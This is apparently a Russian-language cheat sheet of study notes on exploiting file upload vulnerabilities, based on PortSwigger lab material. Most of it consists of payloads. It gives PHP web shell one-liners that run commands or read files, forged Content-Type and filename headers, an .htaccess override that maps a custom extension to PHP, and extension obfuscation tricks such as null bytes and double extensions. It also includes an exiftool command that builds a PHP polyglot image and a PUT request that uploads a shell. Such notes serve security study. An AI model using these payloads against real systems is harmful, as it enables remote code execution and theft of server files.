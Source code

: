 [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)

# Эксплуатация неограниченной загрузки файлов для развертывания веб-оболочки

```
<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=id HTTP/1.1
```

# Эксплуатация несовершенной проверки загружаемых файлов
## Неправильная проверка типа файла

```
Content-Disposition: form-data; name="image"; filename="exploit.php"
Content-Type: image/jpeg
```

## Предотвращение выполнения файлов в каталогах, доступных пользователю
Веб-серверы часто используют поле `filename` в запросах `multipart/form-data` для определения имени и места сохранения файла.

## Недостаточный черный список опасных типов файлов
Черные списки иногда можно обойти, используя менее известные, альтернативные расширения файлов, которые могут быть исполняемыми, например .php5, .shtml и так далее.

## Переопределение конфигурации сервера
Чтобы Apache выполнял файлы PHP, запрошенные клиентом, разработчики должны добавить следующие директивы в файл `/etc/apache2/apache2.conf`:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Многие серверы также позволяют разработчикам создавать специальные конфигурационные файлы в отдельных каталогах, чтобы переопределить или добавить к одной или нескольким глобальным настройкам. Серверы Apache, например, загружают конфигурацию для конкретной директории из файла `.htaccess`, если таковой имеется. 

Для эксплуатации можно перезаписать этот файл содержимым:

```
AddType application/x-httpd-php .l33t
```

В запросе загрузки файла изменить заголовок:

```
Content-Type: text/plain
```

И загрузить файл `shell.l33t` с хедерами:

```
Content-Disposition: form-data; name="avatar"; filename="shell.l33t"
Content-Type: application/x-httpd-php
```

На серверах IIS с помощью файла `web.config`:

```
<staticContent>
	<mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>`
```

## Обфускация расширений файлов
Несколько расширений

```
exploit.php.jpg
```

Символы в конце строки

```
exploit.php.
```

Кодировка URL (или двойная) для точек, прямых и обратных косых черт

```
exploit%2Ephp
```

Точка с запятой или символы нулевого байта, закодированные в URL, перед расширением файла:

```
exploit.asp;.jpg
exploit.asp%00.jpg
```

Если удаление/замена опасных расширений выполняется не рекурсивно:

```
exploit.p.phphp
```

Многобайтовые символы юникода, которые могут быть преобразованы в нулевые байты и точки после преобразования или нормализации юникода. Последовательности типа `xC0 x2E`,` xC4 xAE` или `xC0 xAE` могут быть преобразованы в `x2E`, если имя файла анализируется как строка UTF-8, но затем преобразуются в символы ASCII перед использованием в пути.

## Неправильная проверка содержимого файла
С помощью специальных инструментов, таких как ExifTool, можно легко создать полиглотный файл JPEG, содержащий вредоносный код в своих метаданных:

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" kitten.jpg -o polyglot.php
```

[Статья Bypass File Upload Restrictions](https://medium.com/codex/bypass-file-upload-restrictions-f30c88e1fccb)

## Эксплуатация file upload race conditions
рейс кондишн это жоска

# Эксплуатация уязвимостей загрузки файлов без удаленного выполнения кода
## Загрузка вредоносных сценариев на стороне клиента.
Если можно загружать файлы HTML или изображения SVG, потенциально можно использовать теги `<script>` для создания [хранимых XSS](xss.md).

Обращаем внимание на то, что из-за ограничений [same-origin policy](cors.md) эти виды атак будут работать только в том случае, если загруженный файл будет обслуживаться из того же источника, в который был загружен.

## Эксплуатация уязвимостей при парсинге загруженных файлов
Если кажется, что загруженный файл и хранится, и обслуживается безопасно, в крайнем случае можно попробовать использовать уязвимости, связанные с разбором или обработкой различных форматов файлов. Например, вы знаете, что сервер анализирует файлы на основе XML, такие как файлы Microsoft Office .doc или .xls, это может быть потенциальным вектором для атак [XXE-инъекций](xxe-injection.md).

# Загрузка файлов с помощью PUT
Стоит отметить, что некоторые веб-серверы могут быть настроены на поддержку запросов PUT. При отсутствии соответствующей защиты это может стать альтернативным способом загрузки вредоносных файлов, даже если функция загрузки недоступна через веб-интерфейс:

```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49
	
<?php echo file_get_contents('/path/to/file'); ?>
```

Можно попробовать отправить запросы `OPTIONS` на различные конечные точки, чтобы проверить те из них, которые поддерживают метод `PUT`.
